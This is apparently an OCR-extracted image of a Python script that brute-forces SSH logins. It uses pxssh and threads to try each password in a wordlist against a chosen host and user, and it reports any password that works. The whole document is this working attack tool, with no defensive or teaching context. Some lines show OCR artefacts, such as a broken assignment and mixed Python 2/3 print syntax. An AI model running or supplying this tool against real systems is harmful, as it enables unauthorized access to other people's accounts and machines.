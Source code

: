```
# coding=UTF-8
import pxssh
import optparse
import time
import threading
maxConnections = 5
connection_lock =
threading.BoundedSemaphore(value=maxConnections)
Found = False
Fails = 0
def connect(host, user, password, release):
    global Found, Fails
    try:
        s = pxssh.pxssh()
        s.login(host, user, password)
        print('[+] Password Found: ' + password)
        Found = True
    except Exception as e:
        if 'read_nonblocking' in str(e):
            Fails += 1
            time.sleep(5)
            connect(host, user, password, False)
        elif 'synchronize with original prompt' in str(e):
            time.sleep(1)
            connect(host, user, password, False)
    finally:
        if release:
            connection_lock.release()
def main():
    parser = optparse.OptionParser('usage%prog '+'-H<target host> -u <user> -f <password list>')
    parser.add_option('-H', dest='tgtHost', type='string', help='specify target host')
    parser.add_option('-f', dest='passwdFile', type='string', help='specify password file')
    parser.add_option('-u', dest='user', type='string', help='specify the user')
    (options, args) = parser.parse_args()
    host = options.tgtHost
    passwdFile = options.passwdFile
    user = options.user
    if host == None or passwdFile == None or user == None:
        print(parser.usage)
        exit(0)
    fn = open(passwdFile, 'r')
    for line in fn.readlines():
        if Found:
            print "[*] Exiting: Password Found"
            exit(0)
        if Fails > 5:
            print "[!] Exiting: Too Many Socket Timeouts"
            exit(0)
        connection_lock.acquire()
        password = line.strip('\r').strip('\n')
        print("[-] Testing: " + str(password))
        t = threading.Thread(target=connect, args=(host, user, password, True))
        t.start()
if __name__ == '__main__':
    main() 
```
